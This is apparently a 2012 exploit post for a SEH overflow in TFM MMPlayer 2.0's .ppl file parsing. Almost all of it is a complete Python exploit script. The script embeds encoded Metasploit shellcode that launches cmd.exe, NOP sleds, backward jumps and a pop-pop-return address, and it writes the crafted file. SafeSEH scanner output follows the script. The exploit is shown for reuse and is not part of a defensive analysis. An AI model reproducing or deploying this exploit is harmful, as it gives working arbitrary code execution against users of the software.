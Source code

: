 TFM MMPlayer .ppl File Parsing SEH Overflow
===========================================
date: 02/Sep/2012
summary: TFM MMPlayer SEH overflow via a pop-pop-return overwrite and negative jumps.
tags: code, exploit

## Introduction

The TFM MMPlayer version 2.0 has a SEH overflow vulnerability. Processing specially-crafted `.ppl` file triggers SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documeneted at [EDB: 19176](http://www.exploit-db.com/exploits/19176/)

## Exploit Code

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb19176.ppl"

# msfpayload windows/exec CMD=cmd.exe R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 226 (iteration=1)

cmmd = ("\xda\xd5\xb8\x4f\xc1\x95\xae\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x32\x83\xc2\x04\x31\x42\x16\x03\x42\x16\xe2\xba\x3d" +
"\x7d\x27\x44\xbe\x7e\x58\xcd\x5b\x4f\x4a\xa9\x28\xe2\x5a" +
"\xba\x7d\x0f\x10\xee\x95\x84\x54\x26\x99\x2d\xd2\x10\x94" +
"\xae\xd2\x9c\x7a\x6c\x74\x60\x81\xa1\x56\x59\x4a\xb4\x97" +
"\x9e\xb7\x37\xc5\x77\xb3\xea\xfa\xfc\x81\x36\xfa\xd2\x8d" +
"\x07\x84\x57\x51\xf3\x3e\x56\x82\xac\x35\x10\x3a\xc6\x12" +
"\x80\x3b\x0b\x41\xfc\x72\x20\xb2\x77\x85\xe0\x8a\x78\xb7" +
"\xcc\x41\x47\x77\xc1\x98\x80\xb0\x3a\xef\xfa\xc2\xc7\xe8" +
"\x39\xb8\x13\x7c\xdf\x1a\xd7\x26\x3b\x9a\x34\xb0\xc8\x90" +
"\xf1\xb6\x96\xb4\x04\x1a\xad\xc1\x8d\x9d\x61\x40\xd5\xb9" +
"\xa5\x08\x8d\xa0\xfc\xf4\x60\xdc\x1e\x50\xdc\x78\x55\x73" +
"\x09\xfa\x34\x1e\xcc\x8e\x43\x67\xce\x90\x4b\xc8\xa7\xa1" +
"\xc0\x87\xb0\x3d\x03\xec\x4f\x74\x09\x45\xd8\xd1\xd8\xd7" +
"\x85\xe1\x37\x1b\xb0\x61\xbd\xe4\x47\x79\xb4\xe1\x0c\x3d" +
"\x25\x98\x1d\xa8\x49\x0f\x1d\xf9\x2a\xc2\x85\x2c\xc9\x64" +
"\x23\x31")

nop1 = "\x90"*3777
nop2 = "\x90"*100
jmp2 = "\xE9\xA8\xFD\xFF\xFF" # near jump (back) 600B (0xFFFFFDA8)
nseh = pack ('<I', 0x9090C4EB)# short jump (back) 60B (0xFFC4)
cseh = pack ('<I', 0x00401390)# p/p/r 00401390 MMPlayer.exe

sploit = nop1+cmmd+nop2+jmp2+nseh+cseh
#3777 226  100  544

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"

'''
/SafeSEH Module Scanner, item 18
 SEH mode=/SafeSEH OFF
 Base=0x400000
 Limit=0x47c000
 Module version=2.2.0.30
 Module Name=MMPlayer.exe
'''
```
